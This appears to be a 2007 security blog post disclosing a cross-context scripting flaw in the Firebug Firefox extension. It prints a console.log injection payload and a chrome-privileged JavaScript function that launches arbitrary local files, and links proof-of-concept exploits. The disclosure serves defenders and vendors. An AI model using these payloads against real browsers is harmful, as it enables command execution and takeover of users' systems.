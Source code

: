 ```yaml
---
title: Firebug Goes Evil
author: petko-d-petkov
date: Wed, 04 Apr 2007 19:12:38 GMT
template: this/views/post.jade
---
```


Firebug is a very powerful JavaScript debugger for Firefox. "I love it!" It has tones of useful features like a dynamic console, DOM tree explorer, CSS viewer/editor, script explorer and my favorite, a network monitor where I can see all Flash, XMLHttpRequest, JS and Image requests.

Firebug is mainly used by web developers to find bugs in their code but it can also be used from security guys like me to find and explore various client-side and server-side vulnerabilities. Firebug is my best buddy. I even partially based [Technika](/blog/technika), the bookmarklets powertool, on the top of Firebug.

Unfortunately, Firebug suffers from rather simple but quite dangerous vulnerability. I have [discussed](/blog/cross-context-scripting-with-sage/) similar issues before. In general, browsers try their best to prevent common vulnerabilities from crippling into their code. However, that's not the case with browser extensions. Very often, browser extension authors do not consider the security aspects of their work, i.e. extensions are not carefully inspected for security vulnerabilities. Because of this, incidents occur. IMHO, the next wave of browser attacks will target exactly this.

In this post I am going to disclose a vulnerability for Firebug which can be used by attackers to gain control of every system where the Firebug extension is installed. Of course, the user needs to visit a malicious page first, which means that the attack surface is greatly reduced. However, given the fact that the largest user base of the Firefox browser are geeks and Firebug is a top extension at [http://addons.mozilla.org](http://addons.mozilla.org), attackers can cause quite a lot of trouble.

The vulnerability is of a type Cross-zone or Cross-context scripting, where a script from a web pages is injected inside the zone of the browser, also know as the chrome, or in the zone of the file: protocol. In both cases the result is quite devastating, although the second is a bit less critical then the first. Remote scripts in the browser are restricted by a sandbox. This means that everything that is prefixed with http: or https: is secure. Browser extensions make use of the chrome: protocol. This protocol is not restricted at all and everything is allowed. In that respect, browser extensions are trusted. However if a remote script, tricks the browser into executing JavaScript expressions on chrome: then this script can take control of the entire chrome and also the underplaying operating system because then command execution and read/write file access operations are allowed.

In order to cause Cross-zone scripting in Firebug you need to do the following:

```javascript
console.log({'<script>alert("bing!")</script>':'exploit'})
```

If you put this JavaScript expression into a page and open it with the browser while Firebug is on, you will be prompted with an alert box. This is not very interesting but there is a lot more you can do then that. For example, attackers can easily inject the following function into the browser chrome:

```javascript
function runFile(f) {
        var file = Components.classes["@mozilla.org/file/local;1"]
                .createInstance(Components.interfaces.nsILocalFile);

        file.initWithPath(f);

        var process = Components.classes["@mozilla.org/process/util;1"]
                .createInstance(Components.interfaces.nsIProcess);

        process.init(file);

        var argv = Array.prototype.slice.call(arguments, 1);

        process.run(true, argv, argv.length);
}
```

The function `runFile` allows execution of files. With the function declaration in the browser chrome, attackers can call `console.log` a few more times to spawn any file they want or even silently install browser extensions, not to mention that they will be able to read and write the file system too. The possibilities for evilness are endless.

There is a catch though. The Cross-context scripting vector is very tiny. In order to exploit the vulnerability, I needed to go through some extreme things like dynamically composing the malicious payload in a string then evaluating the string content inside the chrome. I wrote two ([1](http://www.gnucitizen.org/static/blog/2007/04/firebug-poc.htm), [2](http://www.gnucitizen.org/static/blog/2007/04/firebug-poc2.htm)) Proof of Concept exploits that you can try out.

_It is highly recommended that you disable Firebug until this issue is fixed which I have no doubt that it will be quite soon._

